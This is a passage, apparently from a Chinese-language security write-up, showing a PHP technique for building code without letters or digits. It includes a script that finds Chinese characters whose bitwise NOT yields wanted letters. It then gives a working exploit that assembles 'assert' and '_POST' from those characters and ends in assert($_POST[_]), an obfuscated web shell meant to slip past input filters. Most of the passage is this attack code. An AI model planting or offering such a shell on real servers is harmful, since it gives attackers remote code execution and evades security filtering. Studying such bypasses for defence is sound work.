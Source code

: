 ```
靡癣羹鬓攘蠕巍鳞糯譬霹躏髓蘸镶瓤矗";
function mb_str_split( $string ) {
    return preg_split('/(?<!^)(?!$)/u', $string ); 
}
foreach (mb_str_split($word) as $c)
{
    $arr[] = $c;
}

for ($x=0;$x<strlen($shell);$x++)
{
    for ($y=0;$y<count($arr);$y++)
    {
        $k = $arr[$y];
        if ($shell[$x] == ~($k{1}))
        {
            $result .= $k;
            break;
        }
    }
}
echo $result;
```

根据上面这个POC，我们可以知道，由"极区区皮十勺"可以得到"assert";由"寸小欠立"可以得到"POST"可以得到一个exp：

```
<?php
$_++;   //得到1，此时$_=1
$__ = "极";
$___ = ~($__{$_});   //得到a，此时$___="a"
$__ = "区";
$___ .= ~($__{$_});   //得到s，此时$___="as"
$___ .= ~($__{$_});   //此时$___="ass"
$__ = "皮";
$___ .= ~($__{$_});   //得到e，此时$___="asse"
$__ = "十";
$___ .= ~($__{$_});   //得到r，此时$___="asser"
$__ = "勺";
$___ .= ~($__{$_});   //得到t，此时$___="assert"
$____ = '_';   //$____='_'
$__ = "寸";
$____ .= ~($__{$_});   //得到P，此时$____="_P"
$__ = "小";
$____ .= ~($__{$_});   //得到O，此时$____="_PO"
$__ = "欠";
$____ .= ~($__{$_});   //得到S，此时$____="_POS"
$__ = "立";
$____ .= ~($__{$_});   //得到T，此时$____="_POST"
$_ = $$____;   //$_ = $_POST
$___($_[_]);   //assert($_POST[_])
```
